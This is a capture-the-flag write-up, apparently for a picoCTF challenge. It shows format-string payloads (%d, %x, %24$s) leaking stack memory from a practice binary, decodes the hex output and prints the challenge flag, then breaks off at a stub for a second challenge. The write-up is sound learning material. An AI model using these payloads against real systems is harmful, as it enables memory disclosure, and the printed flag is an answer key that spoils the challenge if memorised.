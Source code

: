 ```console
Tell me a story and then I'll tell you one >> %d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d%d,%d,%d
Here's a story -
-544528,-544496,134517574623666213,1680157796,6236662131680157796,623666213,1680157796623666213,1680157796,6236662131680157796,623666213,1680157796623666213,1680157796,6236662131680157796,623666213,1680157796623666213,1680157796,6236662131680157796,623666213,1680157796623666213,1680157796,6236662131680157796,623666213,1680157796623666213,2436196,18687860322068206659,1798583116,16006139371731488838,1717973087,880038751828336995,1647468849,2103521845-72540160,456299264,
```
- Since `%s` doesn't give me anything, and `%d` gives gibberish, I might be able to obtain the flag is `%x` or hexadecimal.
```console
Tell me a story and then I'll tell you one >> %x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:
Here's a story -
ffe990e0:ffe99100:8049346:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:253a78:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:
```
- Converting the last few from hex to ASCII
![image](https://github.com/user-attachments/assets/3c535d6a-4430-423b-8516-ca197112b213)
- Looks like I will need more format specifiers, as the flag has only been printed partially
- printing from the stack at around 24 using `%24$s`
```
Tell me a story and then I'll tell you one >> %24$s
Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
```
- So I learnt now that %x is used to read data off the stack, so this might be solvable using gdb as well.
- flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`
# format string 2
## Thought Process
```gdb
#include <stdio.h>
```